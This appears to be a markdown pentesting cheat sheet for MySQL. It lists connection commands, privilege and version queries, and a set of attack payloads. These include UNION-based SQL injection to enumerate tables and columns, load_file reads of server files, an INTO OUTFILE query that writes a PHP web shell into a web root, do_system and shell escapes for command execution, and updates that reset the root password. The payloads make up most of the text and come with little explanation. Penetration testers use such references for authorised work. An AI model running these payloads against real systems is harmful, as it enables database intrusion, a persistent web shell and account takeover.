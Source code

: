 ```yaml
---
title: MYSQL Pentesting Best Practices
categories: [pentesting protocols,mysql]
tags: [pentesting,mysql,best practicies]
comments: true
---
```

# MYSQL

> MYSQL default uses ports 3306
{: .prompt-tip }

# What is MYSQL?

MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

```bash
PORT     STATE SERVICE               VERSION
3306/tcp open  mysql
```

<h2>MYSQL Connection</h2>

```bash
#LOCAL 
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)

#REMOTE
mysql -h <Hostname> -u root
mysql -h <Hostname> -u root@localhost
```

<h2>Basic & interesting MySQL commands</h2>

```sql
show databases;
use <database>;
show tables;
describe <table_name>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Try to execute code
select do_system('id');
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
```